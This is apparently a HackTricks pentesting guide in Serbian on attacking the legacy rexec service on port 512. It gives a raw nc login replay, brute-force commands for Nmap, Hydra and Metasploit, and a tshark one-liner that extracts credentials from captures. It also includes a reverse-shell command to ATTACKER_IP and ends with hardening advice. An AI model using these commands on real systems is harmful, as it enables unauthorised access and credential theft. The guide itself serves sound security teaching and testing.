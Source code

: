 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## Osnovne informacije

Rexec (remote **exec**) je jedan od originalnih Berkeley *r*-servisa (zajedno sa `rlogin`, `rsh`, …).  Omogućava **daljinsko izvršavanje komandi** **autentifikovano samo sa korisničkim imenom i lozinkom u čistom tekstu**.  Protokol je definisan početkom 1980-ih (vidi RFC 1060) i danas se smatra **nesigurnim po dizajnu**.  Ipak, još uvek je podrazumevano omogućen u nekim nasleđenim UNIX / mrežno povezanim uređajima i povremeno se pojavljuje tokom internih pentestova.

**Podrazumevani port:** TCP 512 (`exec`)
```
PORT    STATE SERVICE
512/tcp open  exec
```
> 🔥  Sav saobraćaj – uključujući akreditive – se prenosi **nekriptovano**. Svako ko ima mogućnost da prisluškuje mrežu može da povrati korisničko ime, lozinku i komandu.

### Brzi pregled protokola

1. Klijent se povezuje na TCP 512.
2. Klijent šalje tri **NUL-terminirane** stringa:
* broj porta (kao ASCII) na kojem želi da primi stdout/stderr (često `0`),
* **korisničko ime**,
* **lozinku**.
3. Poslednji NUL-terminirani string sa **komandom** koja treba da se izvrši se šalje.
4. Server odgovara sa jednim 8-bitnim statusnim bajtom (0 = uspeh, `1` = neuspeh) praćenim izlazom komande.

To znači da možete ponoviti razmenu sa samo `echo -e` i `nc`:
```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
Ako su akreditivi validni, dobićete izlaz `id` odmah nazad na istoj vezi.

### Ručna upotreba sa klijentom

Mnoge Linux distribucije još uvek isporučuju legacijski klijent unutar paketa **inetutils-rexec** / **rsh-client**:
```bash
rexec -l user -p password <target> "uname -a"
```
Ako je `-p` izostavljen, klijent će interaktivno tražiti lozinku (vidljivu na mreži u čistom tekstu!).

---
## Enumeracija i Brute-forcing

### [**Brute-force**](../generic-hacking/brute-force.md#rexec)

### Nmap
```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
`rexec-brute` NSE koristi protokol opisan iznad da brzo proba kredencijale.

### Hydra / Medusa / Ncrack
```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` ima posvećen **rexec** modul i ostaje najbrži offline bruteforcer. `medusa` (`-M REXEC`) i `ncrack` (`rexec` modul) mogu se koristiti na isti način.

### Metasploit
```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
Modul će pokrenuti shell nakon uspeha i sačuvati kredencijale u bazi podataka.

---
## Snimanje kredencijala

Pošto je sve u čistom tekstu, **snimci mreže su neprocenjivi**. Sa kopijom saobraćaja možete izvući kredencijale bez dodirivanja mete:
```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
(In Wireshark omogućite *Decode As …​* TCP 512 → REXEC da biste videli lepo analizirana polja.)

---
## Saveti nakon eksploatacije

* Komande se izvršavaju sa privilegijama datog korisnika. Ako je `/etc/pam.d/rexec` pogrešno konfiguran (npr. `pam_rootok`), root ljuske su ponekad moguće.
* Rexec ignoriše korisničku ljusku i izvršava komandu putem `/bin/sh -c <cmd>`. Stoga možete koristiti tipične trikove za bekstvo iz ljuske (`;`, ``$( )``, backticks) da povežete više komandi ili pokrenete obrnute ljuske:
```bash
rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
```
* Lozinke se često čuvaju u **~/.netrc** na drugim sistemima; ako kompromitujete jedan host, možete ih ponovo koristiti za lateralno kretanje.

---
## Ojačavanje / Detekcija

* **Ne izlažite rexec**; zamenite ga sa SSH. Virtuelno svi moderni *inetd* superserveri podrazumevano komentarišu ovu uslugu.
* Ako ga morate zadržati, ograničite pristup pomoću TCP wrapper-a (`/etc/hosts.allow`) ili pravila vatrozida i primenite jake lozinke po nalogu.
* Pratite saobraćaj ka :512 i pokretanje `rexecd` procesa. Jedan paketni snimak je dovoljan da otkrije kompromitaciju.
* Onemogućite `rexec`, `rlogin`, `rsh` zajedno – dele većinu istog koda i slabosti.

---

## Reference

* Nmap NSE `rexec-brute` dokumentacija – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploit modul `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
